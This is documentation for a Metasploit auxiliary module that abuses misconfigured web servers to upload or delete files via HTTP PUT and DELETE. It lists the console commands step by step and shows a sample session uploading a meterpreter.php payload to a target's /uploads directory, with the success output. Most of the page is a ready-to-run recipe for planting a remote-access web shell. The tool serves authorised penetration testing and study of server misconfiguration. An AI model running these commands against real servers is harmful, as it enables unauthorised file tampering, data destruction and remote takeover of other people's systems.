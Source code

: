 ## Description 
This module can abuse misconfigured web servers to upload and delete web content via PUT and DELETE HTTP requests.

## Verification Steps

1. Do: ```use auxiliary/scanner/http/http_put```
2. Do: ```set RHOSTS [IP]```
3. Do: ```set RPORT [PORT]```
4. Do: ```set PATH [PATH]```
5. Do: ```set FILENAME [FILNAME]```
6. Do: ```set FILEDATA [PATH]```
7. DO: ```run```

## Options 

### ACTION

Set `ACTION` to either `PUT` or `DELETE`. (Default: `PUT`)

**PUT**

Action is set to PUT to upload files to the server. If `FILENAME` isn't specified, the module will generate a random string as a .txt file.

**DELETE** 

Deletes the file specified in the `FILENAME` option (Default: `msf_http_put_test.txt`). `FILENAME` is required when Action is set to DELETE. 

### PATH

The path at which this module will attempt to either PUT the content or DELETE it.

### FILEDATA

The content to put in the uploaded file when `ACTION` is set to `PUT`.


## Scenarios

Here `ACTION` is by default set to `PUT`.

```
msf > use auxiliary/scanner/http/http_put
msf auxiliary(scanner/http/http_put) > set RHOSTS 1.1.1.23
RHOSTS => 1.1.1.23
msf auxiliary(scanner/http/http_put) > set RPORT 8585
RPORT => 8585
msf auxiliary(scanner/http/http_put) > set PATH /uploads
PATH => /uploads
msf auxiliary(scanner/http/http_put) > set FILENAME meterpreter.php
FILENAME => meterpreter.php
msf auxiliary(scanner/http/http_put) > set FILEDATA file://root/Desktop/meterpreter.php
FILEDATA => file://root/Desktop/meterpreter.php
msf auxiliary(scanner/http/http_put) > run 

[+] File uploaded: http://1.1.1.23:8585/uploads/meterpreter.php
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(scanner/http/http_put) >
```
 
